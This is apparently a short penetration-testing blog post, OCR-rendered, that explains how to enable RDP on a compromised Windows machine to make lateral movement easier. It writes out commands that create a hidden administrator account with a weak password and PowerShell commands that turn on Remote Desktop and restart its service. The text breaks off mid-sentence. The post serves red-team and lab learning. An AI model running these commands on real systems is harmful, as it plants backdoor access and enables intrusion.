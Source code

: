 ```yaml
---
layout: post
title: Windows RDP Pivot
titledate: 10/17/23
tags: ["infosec","offsec","rdp", "privesc", "powershell"]
---
```


#### Enabling RDP

in many cases i've found it much easier to work with windows lateral movement and internal network enumeration if I have gui access to the system

if we can get a shell on a windows machine that has admin or better yet system perms, it can be much quicker and more reliable to use a rdp connection than a finnicky shell

set up the connection

depending on the windows version i've found that one of these commands will work - so i run them consecutively 

to not ruin any current default creds that may be useable on other machines, we'll add a new user

    net user ghoog password123! /add
    net localgroup administrators ghoog /add
    net localgroup "Remote Desktop Users" ghoog /add

then execute these PS commands

    Get-CimInstance -Namespace "root\cimv2\TerminalServices" -Class win32_terminalservicesetting | select ServerName, AllowTSConnections

    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

    Restart-Service -Force -DisplayName "Remote Desktop Services"

then after a minute or so the rdp port should be enabled and viewable with nmap or 